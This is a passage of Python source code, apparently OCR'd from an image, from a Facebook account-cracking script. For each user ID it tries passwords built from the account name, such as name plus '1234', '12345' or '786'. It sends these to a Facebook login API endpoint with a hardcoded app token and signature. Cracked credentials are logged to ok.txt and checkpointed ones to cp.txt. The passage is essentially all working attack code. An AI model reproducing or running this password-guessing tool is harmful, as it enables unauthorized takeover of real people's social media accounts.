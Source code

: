 		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']:
		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()